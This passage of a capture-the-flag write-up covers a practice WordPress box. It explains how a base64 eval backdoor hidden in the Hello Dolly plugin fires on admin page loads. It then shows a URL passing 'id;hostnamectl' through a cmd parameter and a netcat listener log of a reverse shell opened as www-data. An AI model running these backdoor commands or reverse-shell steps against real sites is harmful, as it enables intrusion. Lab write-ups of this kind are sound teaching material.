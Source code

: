 
- Since `hello.php` relies on WordPress functions (`add_action`, `admin_notices`), then execution might require an authenticated admin visiting the WordPress dashboard. If you need more understanding we can break this down :


### **Breaking It Down**

1. **`add_action( $hook, $function )`**
    
    - This is a WordPress function that hooks a custom function (`$function`) to a specific WordPress event (`$hook`).
        
    - It ensures that `hello_dolly()` runs when `admin_notices` is executed.
        
2. **`admin_notices` Hook**
    
    - `admin_notices` is a built-in WordPress hook that displays system messages in the admin dashboard.
        
    - It runs on every admin page load.
        
3. **Effect of This Code**
    
    - Every time an admin visits any page inside the WordPress dashboard, the `hello_dolly()` function runs.
        
    - Since `hello_dolly()` contains `eval(base64_decode(...))`, the backdoor executes **whenever an admin logs into WordPress**.



![](https://i.imgur.com/1pkiFOJ.png)


Since we have credentials we can see if the `wpuser` have admin access by:

1. Log in to WordPress (`/wp-admin`).
    
2. Visit:


```
http://www.smol.thm/wp-admin/?cmd=id;hostnamectl
```
    
3. The system will execute `system("id;hostnamectl")`, revealing user and system info.



![](https://i.imgur.com/CoxmKHd.png)



As we can see the command executed successfully as shown above and with that i used the "**Upload & Execute**" method to get a reverse shell




```
❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.46.88 53336
bash: cannot set terminal process group (716): Inappropriate ioctl for device
bash: no job control in this shell
www-data@smol:/var/www/wordpress/wp-admin$ whoami
whoami
www-data
www-data@smol:/var/www/wordpress/wp-admin$ 
```
